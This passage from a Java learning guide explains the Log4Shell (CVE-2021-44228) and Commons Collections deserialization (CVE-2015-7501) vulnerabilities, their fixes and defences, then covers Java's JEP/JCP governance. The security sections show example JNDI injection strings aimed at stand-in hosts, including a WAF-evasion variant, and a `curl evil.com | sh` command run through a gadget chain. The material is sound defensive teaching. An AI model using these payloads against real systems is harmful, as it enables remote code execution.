- JLG-005 Primitive Types and Wrappers - the type system
  split
- JLG-020 HashMap Internals - how HashMap stores entries

**THIS:** JLG-049 Boxing Performance Trap

**Next steps:**

- JLG-054 Java Expert Mastery Verification - test your
  understanding of performance traps
- JLG-055 Library API Design - design APIs that avoid forcing
  boxing on callers

**The Surprising Truth:**
The single most common performance bug in Java services is
not algorithmic complexity - it is accidental boxing in hot
paths. Services that replace `Map<Long, Long>` counters with
primitive-specialized alternatives often see GC pause
frequency drop by an order of magnitude, not because the
algorithm changed, but because millions of invisible
allocations disappeared.

**Further Reading:**

- "Effective Java" Item 61: Prefer primitive types to boxed
  primitives (Joshua Bloch)
- Eclipse Collections reference guide
  (eclipse.org/collections)
- JEP 401: Value Classes and Objects (Project Valhalla)

**Revision Card:**

1. Every autobox is a heap allocation. Every unbox is a read.
2. `Integer` cache covers -128..127 only. Use `.equals()`
   for comparison.
3. Use `IntStream`, primitive arrays, or Eclipse Collections
   for hot paths.

---

---

# JLG-050 Log4Shell (CVE-2021-44228, 2021)

**TL;DR** - Log4Shell allowed remote code execution by logging a crafted string; it exposed how JNDI lookup in log messages can turn any input into a code-loading directive.

---

### 🔥 Problem Statement

On December 9, 2021, a critical vulnerability was disclosed in
Apache Log4j 2.x (versions 2.0-beta9 through 2.14.1). A
specially crafted string like
`${jndi:ldap://attacker.com/exploit}` placed anywhere in a
logged message triggered the Log4j JNDI lookup feature, causing
the JVM to connect to an attacker-controlled LDAP server and
load a remote Java class. The loaded class executed arbitrary
code with the privileges of the application. CVSS score: 10.0
(maximum). Nearly every Java application that used Log4j 2.x
was vulnerable.

---

### 📜 Historical Context

Log4j 2 introduced "message lookup" to allow log messages to
reference environment variables and system properties:
`${java:version}`, `${env:USER}`. The JNDI lookup plugin
(`${jndi:...}`) was enabled by default and could reach
external LDAP, RMI, and DNS servers. This feature existed
since Log4j 2.0-beta9 (2013). For eight years, any
application logging user-controlled input was silently
vulnerable. The exploit was first reported via Minecraft
chat, where player messages were logged verbatim.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Never execute user input. Logging a string should be a
   pure write operation. Log4Shell violated this by
   interpreting logged strings as executable directives.
2. Default-secure configuration. A logging framework's
   defaults must not enable network calls from log messages.
   JNDI lookup was enabled by default - a design failure.
3. Defense in depth. Even if the logger is patched, the JVM
   should restrict class loading from remote sources. Java
   8u191+ disabled remote JNDI/LDAP class loading by default
   - but bypass techniques existed.

**DERIVED DESIGN:**
The combination of message-as-directive (invariant 1 violated)
and insecure defaults (invariant 2 violated) created a
CVSS 10.0 vulnerability. Defense in depth (invariant 3)
mitigated but did not eliminate the risk.

**THE TRADE-OFF:**
**Gain (of the lookup feature):** dynamic log message
enrichment from external sources.
**Cost:** any user-controlled string becomes an RCE vector.

---

### 🧠 Mental Model

> Imagine a receptionist who logs every visitor's name in a
> ledger. One visitor writes "call this phone number and do
> whatever they say" as their name. The receptionist follows
> the instruction because the ledger system treats certain
> patterns as commands, not text. Log4Shell is the logging
> equivalent: a log message that is interpreted as a remote
> code execution command.

- "Receptionist" -> Log4j
- "Visitor's name" -> user-controlled input
- "Phone number instruction" -> `${jndi:ldap://...}`
- "Do whatever they say" -> load and execute remote class

**Where this analogy breaks down:** a receptionist would
recognize the instruction as unusual; Log4j's lookup feature
was designed to interpret such patterns intentionally.

---

### 🧩 Components

```text
Attack flow:

Attacker -> HTTP request with payload
  "${jndi:ldap://evil.com/x}"
     |
     v
Application logs the request header/param
     |
     v
Log4j 2 MessagePatternConverter
  detects ${...} -> invokes Lookup
     |
     v
JNDI Lookup -> LDAP connection to evil.com
     |
     v
evil.com returns serialized Java object
     |
     v
JVM deserializes and executes -> RCE
```



---

### 📶 Gradual Depth

**Layer 1 - Surface:** If your application uses Log4j 2.x
versions 2.0-beta9 through 2.14.1, upgrade to 2.17.1+ (the
final fix). If you cannot upgrade, set
`log4j2.formatMsgNoLookups=true`.

**Layer 2 - Mechanism:** Log4j's `MessagePatternConverter`
scans every log message for `${...}` patterns and invokes
registered Lookup plugins. The JNDI plugin connects to
external servers. This happens before the message reaches the
appender.

**Layer 3 - Bypass history:** The initial fix (2.15.0)
disabled JNDI lookup by default but was bypassed via nested
lookups. 2.16.0 disabled message lookups entirely. 2.17.0
fixed a recursive lookup DoS. 2.17.1 fixed a JDBC appender
JNDI issue. The full remediation required four releases.

**Layer 4 - Systemic lessons:** Log4Shell revealed that
transitive dependencies carry invisible risk. Organizations
that could not inventory which services used Log4j took days
or weeks to patch. Software Bill of Materials (SBOM) and
dependency scanning became non-optional after this event.

---

### ⚙️ How It Works

```text
Vulnerable code (any version < 2.15.0):

log.info("User-Agent: {}", request.getHeader(
    "User-Agent"));

If User-Agent contains:
  ${jndi:ldap://evil.com/exploit}

Log4j resolves the lookup BEFORE writing.
JNDI connects to evil.com, loads a class,
and the JVM executes it.
```



The code that logged the message did nothing wrong. The
vulnerability was in Log4j's message processing, not in the
application's logging call.

**BAD:**

```java
// Vulnerable: Log4j 2.14.1 resolves lookups
// in logged messages
log.info("User-Agent: {}",
    request.getHeader("User-Agent"));
// If header contains ${jndi:ldap://evil/x},
// Log4j connects to the attacker's server
```

**GOOD:**

```java
// Fixed: upgrade to Log4j 2.17.1+
// Message lookups are disabled entirely.
// OR switch to SLF4J + Logback (never had
// JNDI lookup in message processing)
log.info("User-Agent: {}",
    request.getHeader("User-Agent"));
// Same code, safe framework
```

---

### 🚨 Failure Modes

**Failure 1 - Unpatched transitive dependency.**

The application's direct `pom.xml` shows Log4j 2.17.1, but a
transitive dependency (via an older library) pulls in
log4j-core 2.14.1. The vulnerable version wins if it appears
first on the classpath.

**Diagnostic:** `mvn dependency:tree | grep log4j-core` shows
multiple versions.

**Fix:** add an explicit dependency on log4j-core 2.17.1+ in
the application POM to force version convergence.

**Failure 2 - WAF bypass via obfuscation.**

Attackers encode the payload to evade string-matching WAF
rules: `${${lower:j}ndi:ldap://evil.com/x}`. Log4j's nested
lookup resolution reconstructs the JNDI string.

**Diagnostic:** WAF logs show blocked `${jndi:` but the
application is still compromised.

**Fix:** upgrade Log4j. WAF rules are defense in depth, not
a primary fix.

---

### 🔬 Production Reality

The Log4Shell response in most organizations followed this
timeline:

1. **Day 0 (Dec 9, 2021):** Disclosure. Security teams
   scramble to identify all services using Log4j 2.
2. **Day 1-3:** Hotfix: set
   `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` as an environment
   variable. WAF rules deployed for `${jndi:`.
3. **Day 3-7:** Upgrade to 2.15.0, then 2.16.0 as bypasses
   were found.
4. **Day 7-14:** Upgrade to 2.17.0, then 2.17.1 for
   remaining issues.
5. **Week 2+:** Audit all dependencies. Some embedded Log4j
   in shaded JARs was invisible to dependency scanners.

The hardest part was not patching - it was finding every
instance. Organizations without a software bill of materials
spent days scanning container images and filesystem paths.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Log4j 2 (patched)  | Logback (SLF4J)    | JUL             |
| -------------- | ------------------ | ------------------ | --------------- |
| JNDI lookup    | disabled (2.17.1+) | never had it       | never had it    |
| Performance    | excellent (LMAX)   | good               | adequate        |
| Structured     | native JSON layout | via Logstash Enc.  | requires custom |
| Post-Log4Shell | fixed, audited     | unaffected         | unaffected      |
| Adoption trend | recovering trust   | increased adoption | legacy only     |

---

### ⚡ Decision Snap

**USE Log4j 2 (2.17.1+) WHEN:**

- You need the LMAX Disruptor async appender for
  ultra-high-throughput logging.
- Your organization has standardized on it and audits
  versions.

**PREFER Logback WHEN:**

- You want a logging backend that was never affected by
  Log4Shell.
- SLF4J + Logback is already the team standard.

**ALWAYS:**

- Pin Log4j versions explicitly. Never rely on transitive
  version resolution.
- Run dependency scanning in CI (OWASP Dependency-Check,
  Snyk, Trivy).

---

### ⚠️ Top Traps

| #   | Misconception                             | Reality                                                                        |
| --- | ----------------------------------------- | ------------------------------------------------------------------------------ |
| 1   | Only internet-facing services are at risk | Any service that logs user-controlled input is vulnerable, even internal ones  |
| 2   | Setting `formatMsgNoLookups` is enough    | It mitigates the main vector but does not fix all variants; upgrade to 2.17.1+ |
| 3   | Java 8u191+ is fully protected            | It blocks remote class loading via LDAP but bypass techniques existed          |
| 4   | SLF4J was also vulnerable                 | SLF4J is a facade; the vulnerability was in Log4j 2 core, not the API          |
| 5   | This only affects Log4j 2                 | Log4j 1.x has separate vulnerabilities but not this specific JNDI lookup       |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JLG-048 SLF4J Structured Logging - logging architecture
  and the role of facades
- JLG-039 Java Serialization Security - deserialization
  risks in Java

**THIS:** JLG-050 Log4Shell (CVE-2021-44228, 2021)

**Next steps:**

- JLG-051 Java Deserialization CVE-2015-7501 - another
  landmark Java security incident
- JLG-052 JEP Process and JCP Governance - how Java's
  governance responds to security events

**The Surprising Truth:**
The JNDI lookup feature that enabled Log4Shell was not a bug

- it was a documented, intentional feature. The Log4j team
  designed it for legitimate use cases (looking up configuration
  from LDAP directories). The failure was not in the code but in
  the threat model: the designers never anticipated that
  attacker-controlled strings would reach the log message
  processor. This is the fundamental lesson - any feature that
  interprets user input as a directive is a potential RCE vector.

**Further Reading:**

- NVD entry for CVE-2021-44228 (nvd.nist.gov)
- Apache Log4j Security Vulnerabilities page
  (logging.apache.org/log4j/2.x/security.html)
- "Log4Shell: RCE 0-day exploit found in log4j" - LunaSec
  advisory (original disclosure summary)

**Revision Card:**

1. Log4Shell = JNDI lookup in log messages. Any logged string
   containing `${jndi:...}` triggered remote class loading.
2. Fix: upgrade to Log4j 2.17.1+. Hotfix: set
   `formatMsgNoLookups=true`.
3. Root cause: treating log message content as executable
   directives by default.

---

---

# JLG-051 Java Deserialization CVE-2015-7501

**TL;DR** - Java deserialization of untrusted data allows remote code execution via gadget chains in common libraries; the fix is to never deserialize untrusted input.

---

### 🔥 Problem Statement

Java's `ObjectInputStream.readObject()` reconstructs objects
from byte streams. If an attacker controls the bytes, they
control which classes are instantiated and which methods are
called during deserialization. Apache Commons Collections
included the `InvokerTransformer` class, which could execute
arbitrary methods. Chaining several Commons Collections
classes together creates a "gadget chain" that executes
`Runtime.getRuntime().exec("malicious command")` during
deserialization. Thousands of Java applications accepted
serialized objects over the network and were vulnerable.

---

### 📜 Historical Context

Java serialization has been part of the language since JDK 1.1
(1997). The deserialization vulnerability class was first
described academically in 2011 (Chris Frohoff and Gabriel
Lawrence). The Apache Commons Collections gadget chain was
published in 2015, leading to CVE-2015-7501 (affecting JBoss,
WebLogic, WebSphere, Jenkins, and many others). Brian Goetz
called Java serialization "a horrible mistake" in 2019. JEP
415 (Java 17, 2021) introduced deserialization filters as a
mitigation. The long-term plan is deprecation and removal.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Deserialization is implicit object construction.
   `readObject()` bypasses constructors and directly sets
   fields from the byte stream. Validation logic in
   constructors does not run.
2. The attacker controls the type graph. The serialized bytes
   specify which classes to instantiate. If any class on the
   classpath has a dangerous `readObject()` or
   `readResolve()` method, the attacker can trigger it.
3. Gadget chains compose benign classes into weapons. No
   single class in Commons Collections is malicious. The
   vulnerability arises from composing `InvokerTransformer`,
   `ChainedTransformer`, `LazyMap`, and
   `AnnotationInvocationHandler` into a chain that executes
   arbitrary code.

**DERIVED DESIGN:**
The attacker does not need a bug in your code - only a
gadget library on your classpath and an endpoint that calls
`readObject()` on untrusted bytes.

**THE TRADE-OFF:**
**Gain (of Java serialization):** zero-config object
persistence and network transport.
**Cost:** any untrusted byte stream becomes an RCE vector.

---

### 🧠 Mental Model

> Imagine a package delivery system where opening a package
> automatically runs any instructions written on the label.
> The label says "open inner box, which says run this
> program." Each step is a valid delivery operation - but
> chained together, they execute arbitrary commands. Java
> deserialization is that delivery system.

- "Package" -> serialized byte stream
- "Label instructions" -> `readObject()` method
- "Inner box" -> nested serialized object
- "Run this program" -> `InvokerTransformer.transform()`

**Where this analogy breaks down:** real delivery systems
never auto-execute label instructions; Java serialization
literally does.

---

### 🧩 Components

```text
Gadget chain (Commons Collections 3.x):

AnnotationInvocationHandler.readObject()
  -> LazyMap.get()
    -> ChainedTransformer.transform()
      -> InvokerTransformer["getRuntime"]
      -> InvokerTransformer["exec"]
        -> Runtime.exec("malicious cmd")
```



---

### 📶 Gradual Depth

**Layer 1 - Surface:** Never call
`ObjectInputStream.readObject()` on untrusted data. Use JSON,
Protocol Buffers, or another safe format instead.

**Layer 2 - Mechanism:** The attacker crafts a byte stream
containing a chain of serialized objects. Each object's
`readObject()` method calls the next. The final object in the
chain invokes `Runtime.exec()` or loads a remote class.

**Layer 3 - Mitigation:** JEP 415 (Java 17) adds
deserialization filters via
`ObjectInputFilter.Config.setSerialFilter()`. Define an
allowlist of permitted classes. Reject everything else.

**Layer 4 - Systemic defense:** Remove unused gadget
libraries from the classpath. Even with filters, fewer gadget
classes means fewer attack surfaces. Audit every endpoint that
accepts serialized Java objects (RMI, JMX, custom protocols).

---

### ⚙️ How It Works

```text
Attacker crafts bytes:
  [AC ED 00 05 ...] (Java serialization magic)
  Contains: AnnotationInvocationHandler
    wrapping LazyMap
      wrapping ChainedTransformer
        wrapping InvokerTransformer[]

Server receives bytes:
  new ObjectInputStream(socket.getInputStream())
    .readObject()  // triggers the chain

Result: Runtime.exec("curl evil.com | sh")
```



**BAD:**

```java
// Accepting serialized objects from network
try (var ois = new ObjectInputStream(
        socket.getInputStream())) {
    Object obj = ois.readObject(); // RCE HERE
    process(obj);
}
```

**GOOD:**

```java
// Use JSON with explicit type mapping
var mapper = new ObjectMapper();
// Disable default typing to prevent
// polymorphic deserialization attacks
mapper.deactivateDefaultTyping();
Order order = mapper.readValue(
    input, Order.class);
```

---

### 🚨 Failure Modes

**Failure 1 - Hidden deserialization endpoints.**

The application does not directly use `ObjectInputStream`,
but a framework does. JMX, RMI, and some message brokers
deserialize objects internally.

**Diagnostic:** search the classpath for
`ObjectInputStream` usage:
`grep -r "ObjectInputStream" src/`
Also check framework configurations for binary serialization.

**Fix:** disable JMX remote access, use RMI with SSL +
deserialization filters, or switch to text-based protocols.

**Failure 2 - Jackson polymorphic deserialization.**

Jackson's `enableDefaultTyping()` embeds type information in
JSON. An attacker sends
`{"@class": "dangerous.Gadget", ...}` and the mapper
instantiates it.

**Diagnostic:** search for `enableDefaultTyping()` or
`@JsonTypeInfo` with `Id.CLASS` or `Id.MINIMAL_CLASS`.

**Fix:** use `activateDefaultTyping()` with a
`PolymorphicTypeValidator` allowlist (Jackson 2.10+).

---

### 🔬 Production Reality

Java deserialization vulnerabilities have been exploited in:

- **Apache Struts** (multiple CVEs, 2017)
- **Oracle WebLogic** (CVE-2015-4852, CVE-2019-2725)
- **Jenkins** (CVE-2016-0792)
- **Apache Kafka** (CVE-2023-25194, Connect API)

The pattern is always the same: an endpoint accepts
serialized Java objects, gadget classes are on the classpath,
and the chain executes. The most effective production defense
is eliminating Java serialization entirely:

1. Replace `ObjectInputStream` with JSON/Protobuf.
2. Add deserialization filters (JEP 415) as a safety net.
3. Remove unused libraries that provide gadget classes.
4. Monitor for `AC ED 00 05` (serialization magic bytes) in
   network traffic at the WAF level.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Java Serialization | JSON (Jackson)     | Protocol Buffers   |
| -------------- | ------------------ | ------------------ | ------------------ |
| Safety         | dangerous          | safe (with config) | safe (schema-only) |
| Speed          | moderate           | moderate           | fast               |
| Schema         | implicit (class)   | implicit or schema | required (.proto)  |
| Cross-lang     | Java only          | universal          | universal          |
| Attack surface | gadget chains      | polymorph typing   | minimal            |

---

### ⚡ Decision Snap

**NEVER use Java serialization for:**

- Network communication with untrusted parties.
- Persistent storage of user-controlled data.
- Session storage in distributed caches.

**USE deserialization filters WHEN:**

- Legacy code cannot be migrated away from
  `ObjectInputStream` immediately.
- Internal RMI/JMX endpoints must remain.

**PREFER JSON/Protobuf for:**

- All new inter-service communication.
- REST APIs, message queues, persistent storage.

---

### ⚠️ Top Traps

| #   | Misconception                            | Reality                                                                 |
| --- | ---------------------------------------- | ----------------------------------------------------------------------- |
| 1   | Removing Commons Collections fixes it    | Other gadget libraries exist: Spring, Groovy, BeanUtils, C3P0           |
| 2   | Only direct `readObject()` is vulnerable | Frameworks (RMI, JMX, message brokers) deserialize internally           |
| 3   | Jackson JSON is always safe              | `enableDefaultTyping()` reintroduces polymorphic deserialization risks  |
| 4   | JEP 415 filters make serialization safe  | Filters reduce risk but allowlists are hard to get right                |
| 5   | Modern Java versions are not vulnerable  | The JDK still supports `ObjectInputStream`; gadgets depend on classpath |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JLG-039 Java Serialization Security - serialization
  fundamentals and risks
- JLG-050 Log4Shell - another landmark Java vulnerability

**THIS:** JLG-051 Java Deserialization CVE-2015-7501

**Next steps:**

- JLG-052 JEP Process and JCP Governance - how Java evolves
  to address security design failures
- JLG-055 Library API Design - designing APIs that do not
  expose deserialization surfaces

**The Surprising Truth:**
The Commons Collections gadget chain was not discovered by
security researchers looking for bugs. It was discovered by
developers studying how Java serialization works internally.
Every class in the chain was functioning as designed. The
vulnerability is an emergent property of composition - no
single class is broken, but together they form a weapon. This
is why "remove the dangerous class" is insufficient; the real
fix is removing the ability to deserialize untrusted data.

**Further Reading:**

- "Marshalling Pickles" - Chris Frohoff, Gabriel Lawrence
  (AppSecCali 2015, original research presentation)
- JEP 415: Context-Specific Deserialization Filters
  (openjdk.org/jeps/415)
- OWASP Deserialization Cheat Sheet
  (cheatsheetseries.owasp.org)

**Revision Card:**

1. Never deserialize untrusted input. `readObject()` is
   implicit code execution.
2. Gadget chains compose benign classes into RCE weapons.
3. Replace Java serialization with JSON/Protobuf. Use JEP 415
   filters as defense in depth.

---

---

# JLG-052 JEP Process and JCP Governance

**TL;DR** - JEPs drive OpenJDK evolution; JCP defines the Java SE spec. Understanding both explains why features take years and how to influence Java's direction.

---

### 🔥 Problem Statement

A developer asks "why does Java not have X?" The answer is
always governance. Java evolves through two formal processes:
JEP (JDK Enhancement Proposal) for OpenJDK implementation and
JCP (Java Community Process) for the Java SE specification.
Neither is fast. Pattern matching took 6 JEPs across 5 years
(JEP 305 in 2017 to JEP 441 in 2023). Understanding these
processes explains Java's stability guarantees, its slow-but-
deliberate evolution, and how to participate.

---

### 📜 Historical Context

Sun Microsystems created the JCP in 1998 to formalize Java
standardization through JSRs (Java Specification Requests).
Oracle acquired Sun in 2010 and shifted active development to
OpenJDK. In 2017, Oracle moved to a 6-month release cadence
(JEP 322). JEPs became the primary vehicle for language
changes, while JCP continued to govern the specification (JSR
394 = Java SE 17, JSR 396 = Java SE 21). The two processes
run in parallel: JEPs propose, prototype, and deliver; JCP
ratifies the specification.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. Backward compatibility is sacred. Java code compiled in
   2000 must run on the 2025 JVM. Every JEP is evaluated
   against this constraint. Features that break existing code
   are rejected or redesigned.
2. Preview features protect the ecosystem. New language
   features ship as `--enable-preview` for 1-2 releases
   before finalization, giving the community time to provide
   feedback without committing the specification.
3. Consensus over speed. A JEP requires agreement from JDK
   project leads and relevant area leads. Single-vendor
   features are rejected. This is why Java rarely ships
   regrettable features.

**DERIVED DESIGN:**
The combination of backward compatibility (invariant 1) and
consensus (invariant 3) explains why Java features take years.
Preview (invariant 2) is the release valve that lets features
ship incrementally without permanent commitment.

**THE TRADE-OFF:**
**Gain:** stability, trust, ecosystem-wide compatibility.
**Cost:** slow feature adoption; developers wait years for
features other languages ship quickly.

---

### 🧠 Mental Model

> JEP is a proposal to build a new room in a shared building
> (the JDK). JCP is the building code that certifies the
> room meets standards. The 6-month release train is the
> construction schedule. Preview is a model room that tenants
> can try before the walls are permanent.

- "Shared building" -> the JDK
- "Building code" -> Java SE specification (JCP/JSR)
- "Construction schedule" -> 6-month release cadence
- "Model room" -> preview feature

**Where this analogy breaks down:** building codes are
external regulations; JCP members are the same people
building the rooms.

---

### 🧩 Components

```text
Java governance structure:

OpenJDK (implementation)
  +-- JEP (proposal mechanism)
  |     +-- Draft -> Candidate -> Targeted
  |     +-- Preview -> Final
  +-- Projects (Amber, Loom, Panama, Valhalla)
  +-- JBS (bugs.openjdk.org, issue tracker)

JCP (specification)
  +-- JSR (spec document)
  +-- Expert Group (writes the spec)
  +-- Executive Committee (votes)
```



---

### 📶 Gradual Depth

**Layer 1 - Surface:** Java releases every 6 months (March
and September). LTS releases every 2 years (Java 17, 21, 25).
Use LTS for production.

**Layer 2 - JEP lifecycle:** A JEP starts as a Draft, becomes
a Candidate when reviewed, gets Targeted to a specific release,
ships as Preview (optional, for language features), and becomes
Final. Some JEPs are Withdrawn or Closed.

**Layer 3 - JCP mechanics:** A JSR defines the specification
for a Java SE version. Expert Groups write the spec text. The
JCP Executive Committee votes on approval. JSRs reference
JEPs for the implementation. Since Oracle open-sourced the TCK
(Technology Compatibility Kit) for Java SE 17+, anyone can
verify a JDK implementation against the spec.

**Layer 4 - Influence:** File JBS issues against JEPs to
provide feedback. Join the Adoption Group mailing lists.
Test preview features and report problems. The Amber, Loom,
and Valhalla mailing lists are where design decisions happen.
Your feedback on preview features directly shapes the final
specification.

---

### ⚙️ How It Works

```text
Feature lifecycle example: Records

2017: JEP 359 drafted (Records)
2020 Mar: Java 14 - Records preview 1
2020 Sep: Java 15 - Records preview 2
2021 Mar: Java 16 - Records final (JEP 395)
2021 Sep: Java 17 LTS includes Records

Total: 4 years from draft to LTS.
```



**Pattern matching took longer:**

```text
JEP 305: 2017 (pattern matching draft)
JEP 394: Java 16 (instanceof preview)
JEP 406: Java 17 (switch preview 1)
JEP 441: Java 21 (switch final)

Total: 6 years from draft to final.
```

The length reflects the scope: pattern matching touches the
type system, switch statement, sealed types, and records. Each
piece shipped separately, tested in preview, and composed into
the final design.

**BAD:**

```java
// Using a preview feature in production
// Java 14, Records preview 1
record Point(int x, int y) {} // preview API
// If Java 15 changes the spec, this breaks
// on upgrade with no patch available
```

**GOOD:**

```java
// Wait for finalization (Java 16+ for records)
record Point(int x, int y) {} // final API
// Stable, backward-compatible, supported in
// all future Java versions
```

---

### 🚨 Failure Modes

**Failure 1 - Depending on preview features in production.**

A team adopts preview records in Java 14 for a production
service. Java 15 changes the record specification (added
local records, changed canonical constructor rules). The
production code breaks on upgrade.

**Diagnostic:** compilation fails with `--enable-preview` on
the new JDK version.

**Fix:** preview features are explicitly non-committal. Never
use them in production code. Use them in side projects and
tests to provide feedback.

**Failure 2 - Confusing JDK release with LTS support.**

A team upgrades to Java 18 (non-LTS) in production. Six
months later, Java 19 ships and Java 18 receives no more
security patches. The team must upgrade again or run
unpatched.

**Diagnostic:** security scan flags known vulnerabilities with
no available patch for the current JDK version.

**Fix:** use LTS releases (17, 21, 25) for production. Track
non-LTS releases for testing and early adoption only.

---

### 🔬 Production Reality

Most organizations adopt a dual-track strategy:

1. **Production:** LTS release (currently Java 21, with Java
   25 as the next LTS). Upgrade to new LTS within 12 months
   of release.
2. **Development/CI:** latest release for early access to
   features. Run tests against both LTS and latest.

The JCP governance ensures that features finalized in a
release are stable and backward-compatible. In practice, the
gap between "language feature available" and "ecosystem
supports it" is 1-3 years. Libraries, frameworks, and build
tools must update to support new bytecode and API.

The 6-month cadence solved a real problem: Java 8 to 9 was a
3-year gap with a massive breaking change (modules). Smaller,
frequent releases reduce the blast radius of each change.

---

### ⚖️ Trade-offs & Alternatives

| Aspect          | Java (JCP/JEP)      | C# (.NET)          | Kotlin (JetBrains) |
| --------------- | ------------------- | ------------------ | ------------------ |
| Governance      | community (JCP/JSR) | single-vendor (MS) | single-vendor (JB) |
